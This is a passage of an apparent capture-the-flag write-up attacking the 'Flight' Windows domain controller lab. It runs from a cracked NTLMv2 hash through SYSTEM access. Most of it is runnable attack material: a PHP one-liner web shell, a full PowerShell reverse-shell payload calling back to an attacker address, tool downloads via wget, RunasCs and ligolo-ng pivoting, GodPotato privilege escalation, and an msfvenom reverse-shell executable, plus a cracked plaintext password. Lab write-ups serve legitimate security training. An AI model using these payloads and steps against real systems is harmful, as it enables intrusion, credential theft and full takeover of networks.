[SMB] NTLMv2-SSP Hash     : c.bum::flight.htb:72e73b57265df8af:4D22C1950359A10ADB96A074026CC863:010100000000000080B88D2434C1DC011E59E9C7DEB3A3A6000000000200080039004B004900570001001E00570049004E002D00530034004F00380036005A004200490059003300490004003400570049004E002D00530034004F00380036005A00420049005900330049002E0039004B00490057002E004C004F00430041004C000300140039004B00490057002E004C004F00430041004C000500140039004B00490057002E004C004F00430041004C000700080080B88D2434C1DC0106000400020000000800300030000000000000000000000000300000FB840A9349D10ED9F2C6048A7D2E4AF1AFB055F5E509F4FF113D3D01B3D9EC580A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00390030000000000000000000
```
Now i can attempt to crack this 


### Cracking the hash
```python
hashcat c_bum.hash /usr/share/wordlists/rockyou.txt

C.BUM::flight.htb:72e73b57265df8af:4d22c1950359a10adb96a074026cc863:010100000000000080b88d2434c1dc011e59e9c7deb3a3a6000000000200080039004b004900570001001e00570049004e002d00530034004f00380036005a004200490059003300490004003400570049004e002d00530034004f00380036005a00420049005900330049002e0039004b00490057002e004c004f00430041004c000300140039004b00490057002e004c004f00430041004c000500140039004b00490057002e004c004f00430041004c000700080080b88d2434c1dc0106000400020000000800300030000000000000000000000000300000fb840a9349d10ed9f2c6048a7d2e4af1afb055f5e509f4ff113d3d01b3d9ec580a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00390030000000000000000000:Tikkycoll_431012284
```
The hash cracked

```python
c.bum:Tikkycoll_431012284
```
Ill validate these credentials

```python
nxc smb g0.flight.htb -u c.bum -p 'Tikkycoll_431012284'  
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.228.120  445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284
```
This user has been compromised

### Access on shares as `c.bum`
```python
nxc smb g0.flight.htb -u c.bum -p 'Tikkycoll_431012284' --shares
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.228.120  445    G0               [+] flight.htb\c.bum:Tikkycoll_431012284 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ,WRITE
```
Now i have write access on `Web` which as previously identified is where the webroot is held so i should be able to make a reverse shell as this user

## Reverse shell as `svc_apache`
```python
<?php system($_REQUEST['cmd']); ?>
```
Since i know the page is running PHP i will start with this!

```python
penelope -p 1337                                      
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.150 • 172.18.0.1 • 172.17.0.1 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
This set me a listener ready for a reverse shell

```python
smbclient //g0.flight.htb/Web -U 'c.bum'%'Tikkycoll_431012284'
smb: \> cd school.flight.htb\
smb: \school.flight.htb\> put shell.php
putting file shell.php as \school.flight.htb\shell.php (0.8 kB/s) (average 0.8 kB/s)
smb: \school.flight.htb\> 
```
This planted the shell now i can browse to it!


As seen here i now have Remote Code Execution as this user

Soon after though the shell is removed from the share probably a cleanup script

```python
powershell%20-nop%20-W%20hidden%20-noni%20-ep%20bypass%20-c%20%22%24TCPClient%20%3D%20New-Object%20Net.Sockets.TCPClient%28%2710.10.14.90%27%2C%201337%29%3B%24NetworkStream%20%3D%20%24TCPClient.GetStream%28%29%3B%24StreamWriter%20%3D%20New-Object%20IO.StreamWriter%28%24NetworkStream%29%3Bfunction%20WriteToStream%20%28%24String%29%20%7B%5Bbyte%5B%5D%5D%24script%3ABuffer%20%3D%200..%24TCPClient.ReceiveBufferSize%20%7C%20%25%20%7B0%7D%3B%24StreamWriter.Write%28%24String%20%2B%20%27SHELL%3E%20%27%29%3B%24StreamWriter.Flush%28%29%7DWriteToStream%20%27%27%3Bwhile%28%28%24BytesRead%20%3D%20%24NetworkStream.Read%28%24Buffer%2C%200%2C%20%24Buffer.Length%29%29%20-gt%200%29%20%7B%24Command%20%3D%20%28%5Btext.encoding%5D%3A%3AUTF8%29.GetString%28%24Buffer%2C%200%2C%20%24BytesRead%20-%201%29%3B%24Output%20%3D%20try%20%7BInvoke-Expression%20%24Command%202%3E%261%20%7C%20Out-String%7D%20catch%20%7B%24_%20%7C%20Out-String%7DWriteToStream%20%28%24Output%29%7D%24StreamWriter.Close%28%29%22
```
Ill use this payload `powershell #3` on revshells.com with some URL encoding ill then send this via `shell.php?cmd=`

```python
penelope -p 1337                                      
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.1.150 • 172.18.0.1 • 172.17.0.1 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] • G0 10.129.228.120 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 flight\svc_apache • Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/G0~10.129.228.120-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_03_31-18_25_24-038.log
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
SHELL> whoami
flight\svc_apache
SHELL> 
```
I now have a shell

### Internal service running
```python
SHELL> netstat -ano | findstr LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       5392
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       920
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       5392
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       920
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2776
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       500
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1252
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1624
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       660
  TCP    0.0.0.0:49684          0.0.0.0:0              LISTENING       640
  TCP    0.0.0.0:49695          0.0.0.0:0              LISTENING       2896
  TCP    0.0.0.0:59126          0.0.0.0:0              LISTENING       2888
```
As seen here there is an internal service running on here specifically port 8000

```python
SHELL> dir C:\inetpub\development


    Directory: C:\inetpub\development


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        3/31/2026   5:27 PM                css                                                                   
d-----        3/31/2026   5:27 PM                fonts                                                                 
d-----        3/31/2026   5:27 PM                img                                                                   
d-----        3/31/2026   5:27 PM                js                                                                    
-a----        4/16/2018   2:23 PM           9371 contact.html                                                          
-a----        4/16/2018   2:23 PM          45949 index.html
```
There also appears to be a directory in `inetpub` called `development` im starting to think this could be an internal web service

Looking at the privs i can see that it can be edited by `c.bum` i know his creds so i can simply upload RunAsCs.exe to see whats there

```python
SHELL> pwd

Path                         
----                         
C:\Users\svc_apache\Documents


SHELL>powershell -c wget http://10.10.14.90:443/RunasCs.exe -o rac.exe
SHELL> dir


    Directory: C:\Users\svc_apache\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        3/31/2026   5:39 PM          51712 rac.exe    
```
Ive uploaded RunAsCs.exe to the target via a python webserver

Ill set another listener

```python
SHELL> ./rac.exe c.bum 'Tikkycoll_431012284' -r 10.10.14.90:1338 cmd
[*] Warning: The logon for user 'c.bum' is limited. Use the flag combination --bypass-uac and --logon-type '8' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-753dd$\Default
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 1392 created in background.
```
This sent the connection

```python
penelope -p 1338          
[+] Listening for reverse shells on 0.0.0.0:1338 -> 127.0.0.1 • 192.168.1.150 • 172.18.0.1 • 172.17.0.1 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] • G0 10.129.228.120 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 flight\c.bum • Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/G0~10.129.228.120-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_03_31-18_41_04-982.log
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\Windows\system32>whoami
whoami
flight\c.bum

C:\Windows\system32>
```
Now i have a shell as `c.bum`

## Ligolo-ng to access internal web service
First ill get the windows agent for amd64 and the linux proxy for amd64 from github

```python
python3 -m http.server 8000                           
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Then ill setup a webserver to transfer the agent to the target

```python
SHELL> powershell -c wget http://10.10.14.90:8000/agent.exe -o agent.exe
```
This transferred it to the target

```python
sudo ./proxy -selfcert

ligolo-ng » ifcreate --name flight
INFO[0072] Creating a new flight interface...           
INFO[0072] Interface created!                           
ligolo-ng » route_add --name flight --route 240.0.0.1/32
INFO[0102] Route created.                               
ligolo-ng »  
```
This has configured ligolo-ng routing info

```python
SHELL> ./agent.exe -connect 10.10.14.90:11601 --ignore-cert
```
This triggered a connection back to me on the svc_apache shell

```python
ligolo-ng » INFO[0002] Agent joined.                                 id=00505694ba82 name="flight\\svc_apache@g0" remote="10.129.228.120:61155"
ligolo-ng » session
? Specify a session : 1 - flight\svc_apache@g0 - 10.129.228.120:61155 - 00505694ba82
[Agent : flight\svc_apache@g0] » tunnel_start --tun flight
INFO[0055] Starting tunnel to flight\svc_apache@g0 (00505694ba82) 
[Agent : flight\svc_apache@g0] »  
```
This shows me getting the connection and starting the tunnel 

Now if i go to `http://240.0.0.1:8000/` i should be able to access the internal service


I now have access to the internal service

Now using my `c.bum` shell i can test out a shell by simply droping it in `development`

https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

Ill use this shell here and transfer it by python webserver

```python
python3 -m http.server 1000
Serving HTTP on 0.0.0.0 port 1000 (http://0.0.0.0:1000/) ...
```
The shell is now hosted on my machine

```python
C:\inetpub\development>powershell -c wget http://10.10.14.90:1000/cmd.aspx -o cmd.aspx
powershell -c wget http://10.10.14.90:1000/cmd.aspx -o cmd.aspx
```
This transferred the file


Now browsing to it i have a working webshell


As seen here this is running as `defaultapppool`

```python
penelope -p 1339           
[+] Listening for reverse shells on 0.0.0.0:1339 -> 127.0.0.1 • 192.168.1.150 • 172.17.0.1 • 172.18.0.1 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Ive set a listener

Now ill use this payload in the webshell:
```python
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.10.14.90', 1339);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```

```python
penelope -p 1339           
[+] Listening for reverse shells on 0.0.0.0:1339 -> 127.0.0.1 • 192.168.1.150 • 172.17.0.1 • 172.18.0.1 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] • G0 10.129.228.120 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 iis apppool\defaultapppool • Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/G0~10.129.228.120-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_04_01-16_29_28-140.log
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
SHELL> whoami
iis apppool\defaultapppool
SHELL> 
```
Now i have a shell

```python
SHELL> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SHELL> 
```
I have got SeImpersonatePrivilege so i should be able to run GodPotato

Ill start be making a directory at `C:\Temp`

```python
 python3 -m http.server 1001
Serving HTTP on 0.0.0.0 port 1001 (http://0.0.0.0:1001/) ...
```
Ive downloaded it from github and ill host it using this

```python
SHELL> powershell -c wget http://10.10.14.90:1001/GodPotato-NET4.exe -o godpotato.exe
SHELL> dir


    Directory: C:\Temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----         4/1/2026   3:34 PM          57344 godpotato.exe                                                         


SHELL> 
```
This tranferred godpotato to the target

```python
SHELL> ./godpotato.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140705258995712
[*] DispatchTable: 0x140705261301824
[*] UseProtseqFunction: 0x140705260678352
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\0769db82-3516-492c-b16b-16380feb10a8\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000c802-0cdc-ffff-89e2-fc6fe0608d28
[*] DCOM obj OXID: 0xf7adbad2d4c96063
[*] DCOM obj OID: 0x3966a93dbd05258a
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 916 Token:0x812  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3004
nt authority\system
SHELL> 
```
I am now running as NT authority system

```python
SHELL> ./godpotato.exe -cmd "cmd /c whoami/priv"
[*] CombaseModule: 0x140705258995712
[*] DispatchTable: 0x140705261301824
[*] UseProtseqFunction: 0x140705260678352
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\97a6b3c7-275e-46e9-a59f-3234cc69cf41\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00000802-03bc-ffff-54c9-ad9476ea1430
[*] DCOM obj OXID: 0xf0ea974fdbb08a9f
[*] DCOM obj OID: 0xa99cd52dc8f89237
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 916 Token:0x812  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1380

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 
SHELL> 
```
Domain admin!

## Shell as nt authority system
```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.90 LPORT=1340 -f exe -o admin-shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7680 bytes
Saved as: admin-shell.exe
```
Ive generated a payload 

```python
python3 -m http.server 1001
Serving HTTP on 0.0.0.0 port 1001 (http://0.0.0.0:1001/) ...
```
Here i am hosting it

```python
SHELL> ./godpotato.exe -cmd "cmd /c  powershell -c wget http://10.10.14.90:1001/admin-shell.exe -o C:\Users\Administrator\Desktop\admin-shell.exe"
[*] CombaseModule: 0x140705258995712
[*] DispatchTable: 0x140705261301824
[*] UseProtseqFunction: 0x140705260678352
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\80087a31-3f96-472d-99bf-584be14272b3\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00006402-0f20-ffff-d22c-d3b121c9759f
[*] DCOM obj OXID: 0x9532ef76bda17be3
[*] DCOM obj OID: 0xacffa30c7a9c412f
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 916 Token:0x812  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3224
```
This tranferred it

```python
penelope -p 1340                                                                                
[+] Listening for reverse shells on 0.0.0.0:1340 -> 127.0.0.1 • 192.168.1.150 • 172.17.0.1 • 172.18.0.1 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
Ive started a listener

```python
SHELL> ./godpotato.exe -cmd "cmd /c C:\Users\Administrator\Desktop\admin-shell.exe"
```
Now ill execute the payload

```python
penelope -p 1340                                                                                
[+] Listening for reverse shells on 0.0.0.0:1340 -> 127.0.0.1 • 192.168.1.150 • 172.17.0.1 • 172.18.0.1 • 10.10.14.90
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] • G0 10.129.228.120 Microsoft_Windows_Server_2019_Standard-x64-based_PC 👤 nt authority\system • Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/G0~10.129.228.120-Microsoft_Windows_Server_2019_Standard-x64-based_PC/2026_04_01-16_44_28-974.log
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
C:\Temp>whoami
whoami
nt authority\system

C:\Temp>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

C:\Temp>
```
Full domain compromise!
